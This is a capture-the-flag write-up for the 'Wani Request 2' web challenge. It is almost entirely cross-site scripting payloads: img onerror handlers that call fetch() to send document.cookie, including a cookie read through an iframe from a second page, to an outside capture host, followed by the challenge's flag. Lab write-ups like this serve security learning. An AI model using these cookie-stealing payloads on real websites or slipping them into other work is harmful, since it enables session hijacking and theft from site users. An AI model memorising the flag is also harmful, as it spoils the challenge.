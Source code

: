 # Wani Request 2

# page 1

```
<img src=x onerror="fetch(`https://progfay.free.beeceptor.com?${document.cookie}`)">
```

## page 2

```
https://request2.web.wanictf.org/page1?wani=<iframe id="page2" src="https://request2.web.wanictf.org/page2"></iframe><img src=x onerror="fetch(`https://progfay.free.beeceptor.com?${document.getElementById(`page2`).contentDocument.cookie}`)">
```

In page 1:
```
<iframe id="page2" src="https://request2.web.wanictf.org/page2"></iframe><img src=x onerror="fetch(`https://progfay.free.beeceptor.com?${document.getElementById(`page2`).contentDocument.cookie}`)">
```

## Flag

`FLAG{y0u_4r3_x55-60d_c75a4c80cf07}`

